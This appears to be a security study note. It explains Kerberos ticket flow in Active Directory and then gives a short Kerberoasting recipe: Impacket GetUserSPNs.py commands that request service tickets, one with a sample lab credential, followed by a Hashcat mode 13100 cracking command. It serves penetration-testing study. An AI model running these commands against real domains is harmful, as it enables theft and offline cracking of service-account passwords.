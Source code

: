 ### Kerberos

- When a user logs on to Active Directory, the user authenticates to the Domain Controller (DC) using the user’s password which of course the DC knows.
- The DC sends the user a Ticket Granting Ticket (TGT) Kerberos ticket. The TGT is presented to any DC to prove authentication for Kerberos service tickets.
- The user opens up Skype which causes the user’s workstation to lookup the Service Principal Name (SPN) for the user’s Exchange server.
- Once the SPN is identified, the computer communicates with a DC again and presents the user’s TGT as well as the SPN for the resource to which the user needs to communicate.
- The DC replies with the Ticket Granting Service (TGS) Kerberos service ticket.
- The user’s workstation presents the TGS to the Exchange server for access.


![kerberoast](/assets/Kerberos.png)

### How to Kerberoast [simple]

- With access look for the supported SPNs and get TGS ticket for the SPN using GetUserSPNs tool from Impacket

```
GetUserSPNs.py -request -dc-ip <DC_IP> <domain\user>
```

- Crack hash

```
Hashcat -m 13100 <hash_file> <wordlist>
```

#### Grab krb5tgs
```
sudo python3 GetUserSPNs.py BASEJUMP.local/rfeynman:Password -dc-ip $ip -request
```
